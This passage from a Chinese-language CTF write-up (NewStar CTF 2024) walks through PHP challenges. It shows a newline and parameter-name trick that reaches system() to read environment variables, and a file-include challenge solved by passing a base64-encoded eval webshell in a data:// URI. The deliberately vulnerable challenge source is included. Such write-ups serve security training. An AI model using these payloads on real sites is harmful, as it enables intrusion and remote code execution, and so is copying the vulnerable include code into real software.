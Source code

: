 我们主要来看这个正则匹配，对于这个表达式，可以使用换行符绕过。`preg_match` 默认为单行模式（此时 `.` 会匹配换行符），但在 PHP 中的该模式下，`$` 除了匹配整个字符串的结尾，还能够匹配字符串最后一个换行符。

拓展

如果加 `D` 修饰符，就不匹配换行符：

```
preg_match('/^Welcome$/D', "Welcome\n")
```

但当我们传入NewStar_CTF.2024=Welcome%0a又不能通过了呢，因为这是由 `NewStar_CTF.2024` 中的特殊字符 `.` 引起的，PHP 默认会将其解析为 `NewStar_CTF_2024`. 在 PHP 7 中，可以使用 `[` 字符的非正确替换漏洞。当传入的参数名中出现 `[` 且之后没有 `]` 时，PHP 会将 `[` 替换为 `_`，但此之后就不会继续替换后面的特殊字符了，因此，GET 传参 `NewStar[CTF.2024=Welcome%0a` 即可，随后传入 `call_user_func` 的参数即可

```
?NewStar[CTF.2024=Welcome%0a
papa=TfflxoU0ry7c&func=system&args=env|grep FLAG
```

![image-20241018211051943](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410182110984.png)

### week3

### Include Me

```
<?php
highlight_file(__FILE__);
function waf(){
    if(preg_match("/<|\?|php|>|echo|filter|flag|system|file|%|&|=|`|eval/i",$_GET['me'])){
        die("兄弟你别包");
    };
}
if(isset($_GET['phpinfo'])){
    phpinfo();
}

//兄弟你知道了吗？
if(!isset($_GET['iknow'])){
    header("Refresh: 5;url=https://cn.bing.com/search?q=php%E4%BC%AA%E5%8D%8F%E8%AE%AE");
}

waf();
include $_GET['me'];
echo "兄弟你好香";
?>
```

我们需要将iknow传个值，不然会一直跳转到别的网页

从waf看，题目没有过滤data，那我们可以使用data伪协仪

```
GET /?iknow=1&me=data:text/plain;base64,PD9waHAgQGV2YWwoJF9QT1NUWzBdKT8+%2B HTTP/1.1
<?php @eval($_POST[0])?> 的 Base64 加密结果为 PD9waHAgQGV2YWwoJF9QT1NUWzBdKT8+，加号作转义
```
